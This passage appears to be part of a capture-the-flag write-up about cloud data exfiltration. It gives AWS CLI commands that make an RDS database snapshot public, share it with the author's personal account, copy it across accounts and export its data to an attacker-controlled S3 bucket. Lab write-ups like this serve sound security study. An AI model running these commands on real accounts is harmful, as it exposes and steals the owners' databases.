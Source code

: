 ```bash
aws rds describe-db-snapshot-attributes --db-snapshot-identifier "legacy-app-db-snapshot" --region us-west-2
# Found snapshot shared with account: 073700680158
```

### Making Snapshot Accessible
We made the snapshot publicly accessible and added our personal AWS account:

```bash
# Make snapshot public
aws rds modify-db-snapshot-attribute \
    --db-snapshot-identifier "legacy-app-db-snapshot" \
    --attribute-name "restore" \
    --values-to-add "all" \
    --region us-west-2

# Add personal AWS account for access
aws rds modify-db-snapshot-attribute \
    --db-snapshot-identifier "legacy-app-db-snapshot" \
    --attribute-name "restore" \
    --values-to-add "105014798395" \
    --region us-west-2
```

### Cross-Account Snapshot Copy
Switching to personal AWS credentials, we copied the shared snapshot:

```bash
aws rds copy-db-snapshot \
    --source-db-snapshot-identifier "arn:aws:rds:us-west-2:507880288605:snapshot:legacy-app-db-snapshot" \
    --target-db-snapshot-identifier "legacy-ctf-copy-$(date +%s)" \
    --region "us-west-2"
```

**Important Note:** Cannot copy tags from shared/public snapshots - had to remove `--copy-tags` parameter.

## Database Export and Analysis

### S3 Export Setup
Instead of restoring the full database, we exported the snapshot data to S3 for analysis:

```bash
# Set up S3 bucket and IAM role for RDS export
aws s3 mb s3://rds-snapshot-export-ctf-1754679175 --region us-west-2

# Export snapshot to S3
aws rds start-export-task \
    --export-task-identifier "legacy-export-$(date +%s)" \
    --source-arn "arn:aws:rds:us-west-2:105014798395:snapshot:legacy-ctf-copy-1754679887" \
    --s3-bucket-name "rds-snapshot-export-ctf-1754679175" \
    --iam-role-arn "arn:aws:iam::105014798395:role/rds-snapshot-export-role" \
    --kms-key-id "alias/ctf" \
    --region "us-west-2"
```
